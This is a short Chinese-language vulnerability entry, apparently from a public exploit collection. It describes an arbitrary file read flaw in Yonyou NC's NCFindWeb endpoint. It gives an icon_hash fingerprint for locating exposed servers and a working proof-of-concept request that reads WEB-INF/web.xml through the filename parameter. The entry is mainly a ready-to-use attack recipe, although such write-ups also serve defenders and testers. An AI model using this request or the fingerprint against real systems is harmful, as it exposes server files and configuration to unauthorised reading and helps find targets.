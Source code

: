# 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

```
用友NC
```

## 网络测绘

```
icon_hash="1085941792"
```

## 漏洞复现

登陆页面

![img](images/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC **/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml**

![img](images/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)

